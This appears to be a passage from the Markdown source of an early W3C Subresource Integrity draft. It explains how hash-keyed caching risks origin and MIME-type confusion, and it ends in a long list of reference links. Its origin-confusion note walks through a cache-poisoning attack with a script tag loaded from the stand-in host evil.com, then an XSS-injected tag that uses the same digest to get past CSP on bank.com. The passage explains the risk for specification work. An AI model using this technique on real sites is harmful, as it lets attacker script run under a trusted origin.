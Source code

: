 <section>
#### Risks

This approach is good for performance, but can have security implications. See
the [origin confusion][] and [MIME type confusion][] sections below for some
details.

<section>
##### Origin confusion
[origin confusion]: #origin-confusion

User agents which set up a caching mechanism that uses only the integrity
metadata to identify a resource are vulnerable to attacks which bypass
same-origin restrictions unless they are very careful when choosing whether
or not to read data straight from the cache.

For instance:

* [Runtime script errors][onerror] are sanitized for resources that are
  [CORS-cross-origin][cors] to the page into which they are loaded. [[!HTML5]]

* XMLHttpRequest may only load data from same-origin resources, or from
  resources delivered with proper CORS headers. [[!XMLHTTPREQUEST]]

* Content Security Policy performs origin-based security checks. [[!CSP]]

More?
{:.issue data-number="15"}

<div class="note">
The simple cache-poisoning version of this attack can be mitigated by
requiring strong hash functions for cachable resources. More complex
variants are more difficult to mitigate. Consider the following:

1.  An attacker lures Alice to a page containing the following code:

        <script src="http://evil.com/evil.js" digest="ni://sha-256;123...789">
    {:.example.highlight}

2.  Alice's user agent loads `evil.js`, and stores it in her cache.

3.  Though `bank.com` is protected by a CSP which allows only script from
    `bank.com`, the attacker may still be able to exploit an XSS vulnerability
    in `bank.com` which allows the injection of:

        <script src="http://bank.com/awesome.js" digest="ni://sha-256;123...789">
    {:.example.highlight}

    Since the script appears to come from `bank.com`, CSP allows it, even though
    it doesn't actually exist on that server.
</div>

[onerror]: http://www.w3.org/TR/html5/webappapis.html#runtime-script-errors
[cors]: http://www.w3.org/TR/html5/infrastructure.html#cors-cross-origin
</section>

<section>
##### MIME type confusion
[MIME Type confusion]: #mime-type-confusion

User agents which set up a caching mechanism that uses only the integrity
metadata to identify a resource are vulnerable to attacks which create
resources that behave differently based on the context in which they are
loaded. [Gifar][] is the canonical example of such an attack.


[HSTS]: http://tools.ietf.org/html/rfc6797
[pinned public keys]: http://tools.ietf.org/html/draft-ietf-websec-key-pinning
[entity]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec7.html
[base64url]: http://tools.ietf.org/html/rfc4648#section-5
[abnf-b1]: http://tools.ietf.org/html/rfc5234#appendix-B.1
[sha]: http://csrc.nist.gov/groups/STM/cavp/documents/shs/sha256-384-512.pdf
[openssl]: http://www.openssl.org/
[sha2]: #dfn-sha-2
[digest]: #dfn-digest
[integrity metadata]: #dfn-integrity-metadata
[apply-algorithm]: #apply-algorithm-to-resource
[eligible]: #is-resource-eligible-for-integrity-validation
[fetch-mode]: http://fetch.spec.whatwg.org/#concept-request-mode
[fetch-origin]: http://fetch.spec.whatwg.org/#concept-request-origin
[cachable by a shared cache]: https://svn.tools.ietf.org/svn/wg/httpbis/draft-ietf-httpbis/latest/p6-cache.html#response.cacheability
[match]: #does-resource-match-metadata
[fetch-request]: http://fetch.spec.whatwg.org/#concept-request
[fetch-response]: http://fetch.spec.whatwg.org/#concept-response
[niurl]: http://tools.ietf.org/html/rfc6920#section3
[reflect]: http://www.w3.org/TR/html5/infrastructure.html#reflect
[noncanonical]: #the-noncanonical-src-attribute
[omit credentials mode]: http://fetch.spec.whatwg.org/#concept-request-omit-credentials-mode
[csp]: http://w3.org/TR/CSP11
[report a violation]: http://www.w3.org/TR/CSP11/#dfn-report-a-violation
[integrity policy]: #dfn-integrity-policy
[following a hyperlink]: http://www.w3.org/TR/html5/links.html#following-hyperlinks
[downloads a hyperlink]: http://www.w3.org/TR/html5/links.html#downloading-hyperlinks
[as a download]: http://www.w3.org/TR/html5/links.html#as-a-download
[embedsetup]: http://www.w3.org/TR/html5/embedded-content-0.html#update-the-image-data
[child browsing context]: http://www.w3.org/TR/html5/browsers.html#child-browsing-context
[navigate]: http://www.w3.org/TR/html5/browsers.html#navigate
[process request end-of-file]: http://fetch.spec.whatwg.org/#process-request-end-of-file
[update the image data]: http://www.w3.org/TR/html5/embedded-content-0.html#update-the-image-data
[obtain a resource]: http://www.w3.org/TR/html5/document-metadata.html#concept-link-obtain
[same origin]: http://tools.ietf.org/html/rfc6454#section-5
[objectalgo]: http://www.w3.org/TR/html5/embedded-content-0.html#update-the-image-data 
[prepare]: http://www.w3.org/TR/html5/scripting-1.html#prepare-a-script
[fetching algorithm]: http://www.w3.org/TR/html5/infrastructure.html#fetch
[queue a task]: http://www.w3.org/TR/html5/webappapis.html#queue-a-task
[fire a simple event]: http://www.w3.org/TR/html5/webappapis.html#fire-a-simple-event
[entity body]: #dfn-entity-body
[bz]: http://lists.w3.org/Archives/Public/public-webappsec/2013Dec/0048.html
[track URL]: http://www.w3.org/TR/html5/embedded-content-0.html#track-url
[track-process]: http://www.w3.org/TR/html5/embedded-content-0.html#start-the-track-processing-model
[runworker]: http://dev.w3.org/html5/workers/#run-a-worker
[xhrsend]: http://xhr.spec.whatwg.org/#dom-xmlhttprequest-send
[switch-done]: https://dvcs.w3.org/hg/xhr/raw-file/tip/Overview.html#switch-done
[response entity body]: https://dvcs.w3.org/hg/xhr/raw-file/tip/Overview.html#response-entity-body
[request error]: http://www.w3.org/TR/XMLHttpRequest/#request-error
[xhrnetworkerror]: http://dev.w3.org/2006/webapi/DOM4Core/#networkerror
[xhrerror]: http://www.w3.org/TR/XMLHttpRequest/#event-xhr-error
[Gifar]: http://en.wikipedia.org/wiki/Gifar
[contenttype]: http://tools.ietf.org/html/rfc6920#section-3.1
[valid nonce]: http://w3c.github.io/webappsec/specs/content-security-policy/csp-specification.dev.html#valid-nonces
[cachecontrol]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec14.html#sec14.9
[notransform]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec14.html#sec14.9.5
[Link Fingerprints]: http://www.gerv.net/security/link-fingerprints/
[Link Hashes]: http://wiki.whatwg.org/wiki/Link_Hashes